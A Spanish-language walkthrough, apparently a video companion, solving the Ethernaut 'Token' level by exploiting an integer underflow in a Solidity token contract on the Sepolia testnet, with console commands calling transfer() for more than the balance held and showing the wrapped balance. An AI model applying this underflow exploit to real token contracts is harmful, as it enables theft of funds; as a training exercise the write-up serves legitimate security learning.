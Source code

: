 # Token

> Estas son las instrucciones en las que se basan este vídeo:

<p align="center">
  <a href="https://www.youtube.com/watch?v=808VLPbSXI0">
    <img src="https://img.youtube.com/vi/808VLPbSXI0/hqdefault.jpg" alt="Link al video de Youtube">
  </a>
</p>

En este nivel nuestro objetivo es **hackear** un _Smart Contract_ de un **token básico**. Al principio, **nos dan 20 tokens** y tenemos que buscar una manera de **conseguir más**.

Obtenemos una nueva [instancia](https://sepolia.etherscan.io/tx/0xa6be77dba4333ae500d1d44a4b09028e39da7391e8063a2b6a5c700b911c0017) del contrato confirmando la transacción en nuestra billetera de _MetaMask_.

Como pista, nos pregunta qué es un **odómetro**, que si no lo sabes es un **instrumento de medición** que calcula la distancia total, por ejemplo en un coche. Esto puede ser una similitud a una variable, ya que también se puede desbordar. Esto significa que cuando llega al número máximo, vuelve a cero.

## Análisis

Ahora, analicemos el contrato, primero, se almacenan los balances asociando una dirección en un `mapping`. Luego, se establece el `totalSupply` en el `constructor`.

La primera función, `transfer()`, nos permite **mover una cantidad de tokens** a una dirección de destino, siempre y cuando tengamos ese balance.

La otra función, `balanceOf()`, nos permite **consultar el balance** de una cuenta.

El fallo, es que **está utilizando variables** de tipo `uint` para almacenar estos valores y esto es **vulnerable a ataques de desbordamiento de variable**.

## Ataque

Antes de comenzar, vamos a **comprobar el balance de nuestra cuenta**:

```jsx
> await contract.balanceOf(player)
i {negative: 0, words: Array(2), length: 1, red: null}
length: 1
negative: 0
red: null
words: (2) [20, empty]
[[Prototype]]: Object
```

Podemos ver que **tenemos 20 tokens**. Para desbordar esta variable, lo único que tenemos que hacer es **transferir más tokens de los que tenemos para darle la vuelta al contador**.

```jsx
> await contract.transfer("0x2292cE7b1f57a6b91C76cF4dF75C449Ad48cceba", 21)
{tx: '0x47aed38bf4e2823561d69da3c24a998e0a1ad68853b4f6d092d3e696fcfa3325', receipt: {…}, logs: Array(0)}
logs: []
receipt:
{blockHash: '0x30d152d9747b71456a33e95aa982faea36939ca408cdd1275f52548404efd6e8', blockNumber: 5661716, contractAddress: null, cumulativeGasUsed: 2636873, effectiveGasPrice: 2201498470, …}
tx: "0x47aed38bf4e2823561d69da3c24a998e0a1ad68853b4f6d092d3e696fcfa3325"
```

Aceptamos la [transacción](https://sepolia.etherscan.io/tx/0x5e719babf226a17c4cd54421dc6a9d0660fd91f596111fdb59bf762b651d75c3) en _MetaMask_ y cuando se confirme la transacción, consultaremos de nuevo nuestro balance de esta forma:

```jsx
x = await contract.balanceOf(player);
x.toString();
("115792089237316195423570985008687907853269984665640564039457584007913129639935");
```

Ahora ya podemos [enviar](https://sepolia.etherscan.io/tx/0x54be7fbf4736319b23da45a742749d0686a0906ba9eb72950e4c30c043658a24) el nivel!
